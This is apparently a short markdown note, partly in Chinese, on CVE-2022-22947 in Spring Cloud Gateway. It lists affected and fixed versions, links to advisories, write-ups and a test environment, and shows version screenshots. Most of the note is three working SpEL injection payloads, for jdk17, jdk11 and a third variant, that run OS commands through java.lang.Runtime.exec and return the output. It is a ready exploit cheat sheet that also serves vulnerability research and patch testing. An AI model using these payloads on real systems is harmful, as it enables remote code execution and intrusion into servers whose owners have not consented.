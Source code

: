 ### CVE-2022-22947
jdk17
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
jdk11
```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('id').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
另外的payload：
```
#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033


#### 测试环境
- https://github.com/wdahlenburg/spring-gateway-demo


修复版本：3.1.1
![image](https://user-images.githubusercontent.com/30398606/175478287-fb2babf6-b69d-4147-bbef-54f7d913e606.png)


受影响版本：3.1.0
![image](https://user-images.githubusercontent.com/30398606/175480199-c483b215-0511-4f7e-94ef-faad4f6353e9.png)


